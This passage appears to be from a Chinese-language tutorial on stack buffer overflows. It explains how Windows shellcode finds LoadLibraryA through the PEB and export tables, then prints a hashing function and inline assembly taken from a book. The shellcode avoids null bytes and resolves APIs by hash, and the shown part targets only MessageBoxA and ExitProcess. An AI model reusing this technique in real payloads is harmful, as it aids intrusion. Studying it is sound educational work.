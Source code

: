    - +`0x20`：`AddressOfNames`，函数名称数组；
   - +`0x24`：`AddressOfNameOrdinals`，数组元素是 `AddressOfNames`中对应位置的函数名，在`AddressOfFunctions`中的次序（好拗口）；
   - 这个过程就是：先找到字符串 `"LoadLibraryA"`（的偏移） 在 `AddressOfNames`的索引`i`，然后通过 `AddressOfNameOrdinals[i]` 得到次序`ord`，最后 `AddressOfFunctions[ord]` 就是 `LoadLibraryA` 的地址。
   - 注意，出现在这个结构体中的地址都是相对于装载基址的偏移。

![Locate APIs]({{ "img/stack-buffer-overflow-EAT.png" | absolute_url }})

最后附上[原书P93-P95](https://book.douban.com/subject/6524076/) 的可执行代码以及注释。使用指令比较字符串是一件麻烦的事(`ucrtbase!strcmp`)，因此作者采用哈希值代替：

```cpp
// hash function
DWORD GetHash(const char *src) {
    DWORD hash = 0;
    while (*src) {
        hash = ((hash << 25) | (hash >> 7)); // circular right shift 7 bits
        hash += *src;
        src++;
    }
    return hash;
}
```

可执行代码：

```cpp
_asm {
    cld
    push 0x1E380A6A         // hash of MessageBoxA
    push 0x4FD18963         // hash of ExitProcess
    push 0x0C917432         // hahs of LoadLibraryA     ;esi
    mov esi, esp
    lea edi, [esi-0xC]      // edi = address at which to results are stored

    //
    // allocate space on the stack to protect shellcode from being overwritten
    //
    xor ebx, ebx
    mov bh, 0x04        // avoid explicit zeros
    sub esp, ebx        

    //
    // push ascii string "user32"
    //
    mov bx, 0x3233      // avoid explicit zeros
    push ebx
    push 0x72657375
    push esp
    xor edx, edx

    mov ebx, fs:[0x30]          // ebx = address of peb
    mov ecx, [ebx + 0x0c]       // ecx = address of ldr
    mov ecx, [ecx + 0x1c]       // ecx = address of the first node
    mov ecx, [ecx]              // ecx = address of the second node
    mov ecx, [ecx]              // ecx = address of the third node
    mov ebp, [ecx + 0x08]       // ebp = base address of the kernelbase.dll image

find_lib_functions:        
    // load a double-word into eax from the location pointed by esi
    // get the hash we just found
    lodsd                       
    cmp eax, 0x1E380A6A         // is that the last function(MessageBoxA) we have been searching?
    jne find_functions          // loop if not
    xchg eax, ebp
    call [edi-0x8]              // call LoadLibraryA
```